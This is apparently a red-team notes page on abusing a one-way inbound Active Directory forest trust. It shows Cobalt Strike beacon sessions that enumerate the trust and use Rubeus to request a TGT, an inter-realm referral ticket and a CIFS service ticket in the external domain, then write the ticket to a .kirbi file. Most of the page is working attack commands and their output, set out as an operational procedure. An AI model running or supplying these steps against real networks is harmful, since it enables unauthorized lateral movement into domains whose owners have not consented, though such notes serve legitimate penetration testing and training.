 # One-Way (Inbound)

edu.evil.corp has a one-way inbound trust with evil.external.
```beacon
beacon> powershell Get-DomainTrust

SourceName      : edu.evil.corp
TargetName      : evil.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 3/10/2022 10:13:25 PM
WhenChanged     : 3/10/2022 10:13:25 PM
```

Inbound means, that principals in our domain can be granted access to resources in the external domain.

## Jump the forest
⚠ In order to access the domain you need to impersonate a user from this domain

### Create inter-realm key
1. Create TGT for the principal in question
      ```beacon
      beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jonas /domain:edu.evil.corp /aes256:891[..snip..]7c41 /opsec /nowrap

      [*] Action: Ask TGT
      [*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
      [*] Using aes256-cts-hmac_sha1 hash: 891[..snip..]7c41
      [*] Building AS-REQ (w/ preauth) for: 'edu.evil.corp\jonas'
      [+] TGT request successful!
      [*] base64(ticket.kirbi):

            doIFdD [...snip...] MuSU8=
      ```

2. Create a referal ticket
      ```beacon
      beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/evil.external /domain:edu.evil.corp /dc:dc-2.edu.evil.corp /ticket:doIFdD[...snip...]MuSU8= /nowrap

      [*] Action: Ask TGS
      [*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
      [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
      [*] Building TGS-REQ request for: 'krbtgt/evil.external'
      [+] TGS request successful!
      [*] base64(ticket.kirbi):

            doIFMT [...snip...] 5BTA==
      ```

3. Request TGS in target domain with inter-realm TGT
      ```beacon
      beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.evil.external /domain:ad.evil.external /dc:ad.evil.external /ticket:doIFMT[...snip...]5BTA== /nowrap

      [*] Action: Ask TGS
      [*] Using domain controller: ad.evil.external (10.10.14.55)
      [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
      [*] Building TGS-REQ request for: 'cifs/ad.evil.external'
      [+] TGS request successful!
      [+] Ticket successfully imported!
      [*] base64(ticket.kirbi):

            doIFsD [...snip...] JuYWw=
      ```

4. Store to a file
      > [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\external.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))

5. [[Use Kerberos ticket (kirbi)]]

## Tools
########
########

```meta
ttp: T1000
requirements:
results: 
description: 
```
